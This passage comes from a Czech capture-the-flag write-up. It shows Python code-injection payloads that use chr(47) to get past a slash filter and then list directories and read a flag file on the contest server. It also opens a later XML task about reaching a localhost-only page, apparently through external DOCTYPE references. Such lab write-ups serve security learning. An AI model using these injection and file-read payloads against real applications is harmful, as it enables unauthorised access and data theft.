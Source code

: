 Jsou zde dvě odlišnosti:

* nemůžeme ve "jménu" použít `cd` pro změnu složky
* nemůžeme ve "jménu" jednoduše použít `/`, protože parametr `userstring` už
  není typu `path` a tak se usekne před prvním lomítkem a aplikace nám na
  výraz s lomítkem [vrátí 404](http://user-info-ng.mysterious-delivery.tcc/hello/user/a)

Ale tahle obrana je velmi lajdácká. Znak `/` nám sice neprojde, ale skoro cokoliv
jiného ano (dokud to nebude obsahovat substring `cd`). Způsob, jak v Pythonu
získat string `/`, je třeba `chr(47)`. Tak toho pojďme využít a jen upravme
naše minulé payloady:

* Vylistování `/app`: `"+str(__import__("os").listdir(chr(47)+"app"))+"` [odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(chr(47)+%22app%22))+%22)
* Vylistování `/app/FLAG/`: `"+str(__import__("os").listdir(chr(47)+"app"+chr(47)+"FLAG"))+"` [odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(chr(47)+%22app%22+chr(47)+%22FLAG%22))+%22)
* Přečtení `/app/FLAG/flag.txt`: `"+str(open(chr(47)+"app"+chr(47)+"FLAG"+chr(47)+"flag.txt").read())+"` [odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(open(chr(47)+%22app%22+chr(47)+%22FLAG%22+chr(47)+%22flag.txt%22).read())+%22)

Na poslední zmíněné stránce najdeme vlajku `FLAG{hvIM-3aty-R39h-dOZ4}`.

---

### XML Prettifier (dokončeno po soutěži, 4 body)

> Hi, packet inspector,
>
> some former employe of Mysterious Delivery Ltd. has created prettifier for XML
> code. It is polite to provide information to the AI in nicely formatted XML,
> isn't it? Rumors say that the employee also left some crucial information
> somewhere on the web.
>
> Find the crucial information on webpage
> <http://prettifier.mysterious-delivery.tcc:50000>.
>
> May the Packet be with you!

*Disclaimer: Tuto úlohu jsem bohužel dokončil až po konci soutěže během
sepisování tohoto writeupu, kdy jsem našel své chyby :(.*

Na odkazované stránce si všimneme odkazu na
[/notes](http://prettifier.mysterious-delivery.tcc:50000/notes), který bohužel
vrací: "Forbidden, IP filter is active, content is accessible only from
localhost." Vypadá to, že se budeme muset dostat k této stránce.

Pak si všimneme odkazu na stránku, kam lze zadat XML a udělat ho hezkým. XML je
docela komplikovaný formát, takže k tomu udělat ho pěkným ho pravděpodobně bude
třeba na backendu naparsovat a pak opět dumpnout do stringu.

XML dokument většinou vypadá tak, že začíná `<!DOCTYPE ...>` definující
strukturu XML a poté pokračuje samotným tělem XMLka. Třeba takto v případě
externího odkazu na definici:

```xml
<!DOCTYPE root SYSTEM "definice.dtd">
<root>
...
</root>
```

